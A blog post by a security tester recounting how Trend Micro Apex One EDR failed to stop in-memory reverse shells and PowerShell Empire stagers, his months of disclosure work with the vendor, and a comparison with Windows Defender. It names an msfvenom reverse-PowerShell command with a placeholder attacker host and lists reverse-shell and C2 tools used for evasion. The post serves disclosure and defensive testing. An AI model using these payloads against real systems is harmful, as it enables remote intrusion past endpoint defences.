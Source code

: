 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Bypassing Trend Micro Apex One
___________________________________

# Background
Imagnie, if you will, that your orginization utilizes a well known and 'trusted' Enterprise grade endpoint detection and response solution. Furthermore, imagine that you discover a way to bypass this solution, but to your horror a couple of seriously glarring issues come to the forefront: 
1. The EDR solution can be byapssed using simple or even very basic payloads. 
2. The EDR solution can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.
3. A solution, update, signature, whatever still hasn't been deployed to clients despite working months on end with back-end engineers and other team members part of the vendor and providing beyond adequate information to help them.

Now, I'm a bit skeptical when it comes to AV and EDR solutions. One often hears sale reps tout about how great their product is. How it will *'block everything'*, *'prevent breaches'*, and blah, blah, blah. Obviously, a product like this isn't going to prevent bleeding edge methods or techniques that are used to get around them. The same goes for customized payloads. Heck, the simple reverse PowerShell script I wrote back in March surprisingly still gets around Defender and AMSI in Windows 10 build 1903. What I'm trying to get at, is that the art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know a much more than I do when it comes to this type of stuff. 

Before you ask, yes I did checking the settings in the administration console. I double checked, triple checked, checked again and then had a small existential crisis. Other collegaues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off and check again by now if it was something on my end. 

![bms](Post%20Images/BMS.PNG)
![scs](Post%20Images/SCS.PNG)

After countless emails back and forth, a couple of phone calls later and a handful of updates pushed out, the problem still persists. I first notified Trend of the issue back in Feburary and it is now June. I should point out that Trend pushed out an update were at a point in the process in which we were able to get Apex One to succesfully block anything from PowerShell Empire. However, this glimer of hope only lasted for a short period of time before I tried again a couple of days later to test for consistency.

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of low privilege access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR soluitions. As expected, it was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


# MSFVenom cmd/windows/reverse_powershell
![msfv_1](Post%20Images/kaliVM.PNG)
![msfv_2](Post%20Images/Win10Prod_LI.jpg)
![msfv_3](Post%20Images/msfvenom_payload.PNG)
![msfv_4](Post%20Images/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/msfv_bypass_LI.jpg)
![msfv_6](Post%20Images/msfv_bypass2_LI.jpg)

# Observations
As I mentioned previously, I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on the MSFvenom payload). I recieved the patch on a specified date and it seemed like it was working. PSE was no longer receiving a callback from the target thus producing an agent that would allow me to interact with the remote host. Every thing was fine and dandy until I peformed the same test a couple of days later. Apex One had once again failed to alert on the C2 connection. At this time I noticed that the IP on my Kali box had changed. Was I able to bypass Apex One once more with PSE just by changing my IP? Yes, I was. To make sure I wasn't hallucinating, I had a collegue execute the stager on their machine and sure enough I got a callback from the machine.

## PowerShell Empire

I noticed an anomoly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjuntion with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not is is harmful. In this case it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite occurs when planting the base64 encoded PowerShell payload generated from the launcher command in Empire PowerShell. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is stopped by Apex One.


## PowerShell Empire

#### Round 1
![PSE_1_1](Post%20Images/kalivm.PNG)
![PSE_1_4](Post%20Images/win10prod_LI.jpg!)
![PSE_1_2](Post%20Images/listener_stager.PNG)
![PSE_1_3](Post%20Images/pse_bypass_LI.jpg)

A few minutes later and Apex One still didn't figure out was happening.

#### Round 2
![PSE_2_1](Post%20Images/win10prod2_LI.jpg)
![PSE_2_2](Post%20Images/listener_stager2.PNG)
![PSE_2_3](Post%20Images/pse_bypass2.PNG)
![PSE_2_4](Post%20Images/pse_bypass2_cmds_LI.jpg)

# A Shockng Revelation
During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. 

![winver](Post%20Images/winver.PNG)

The results shocked me to say the least. You'd think a free, built-in AV that comes with Windows would be absolute crap, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 was able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the github link. 

![Github One-liner](Post%20Images/amsi_github_oneliner.PNG)

However, I was able get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't recived a message from AMSI or Defender saying something malicous was going on. However, I recieved an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. To make sure I wasn't go insane and to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and peform the same tests. Again, Defender stopped what Apex One couldn't.

# Conclusion
You defitnely know you have a problem when an AV included in almost every single version of Windows 10 does much better job than the other solution that has had research and development with fancy (or gimmicky) features like machine learing, poured into it. Again, there's no perfect AV and EDR or all-in-one solution that will catch ever single thing including bleeding edge tactics and manuvers. However, if you're going to make people and orginization pay for your product then it better be able to react to the most basic malicious payloads and exploitation frameworks. Especially, if they've been publicy available for a while and allow you to tear the source code apart to figure out how it works.

